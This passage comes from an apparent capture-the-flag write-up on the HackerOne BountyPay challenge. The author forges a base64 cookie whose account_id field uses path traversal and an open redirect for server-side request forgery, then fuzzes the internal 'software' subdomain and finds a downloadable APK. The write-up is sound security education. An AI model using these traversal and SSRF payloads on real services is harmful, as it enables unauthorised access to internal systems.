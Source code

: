 ## Performing the Attack
It is time to do some SSRF.

I set the cookie to the base64 encoded version of 
```json
{
    "account_id":"../../redirect?url=https://software.bountypay.h1ctf.com/&disregard=",
    "hash":"de235bffd23df6995ad4e0930baac1a2"
}
```

The `../` characters navigate us to the base api endpoint in order to use the `/redirect` path. 

I had to use the `&disregard=` at the end in order to make the browser **not** interpret the rest of the imposed url (`/statements?month=01&year=2020"`) to mean "use the `/statements` endpoint".

The final URL looks like: `https://api.bountypay.h1ctf.com/api/accounts/../../redirect?url=https://software.bountypay.h1ctf.com/&disregard=/statements?month=01&year=2020`

With this request we are able to connect to the `software` domain and see...another login page. At least this time we are able to access it instead of just being given a 401.

# These Are the Droids You Are Looking For
I scanned to see what directories are available on the `software` domain without being logged in.

```json
{
    "account_id": "../../redirect?url=https://software.bountypay.h1ctf.com/FUZZ&disregard=",
    "hash": "de235bffd23df6995ad4e0930baac1a2"
}
```

It turned up a folder, `uploads`. This page was a directory listing containing a file `BountyPay.apk`. Navigating my browser to https://software.bountypay.h1ctf.com/uploads/BountyPay.apk downloaded the application.

# Dreaming of Electric Sheep
![img](images/part-one-activity.PNG)
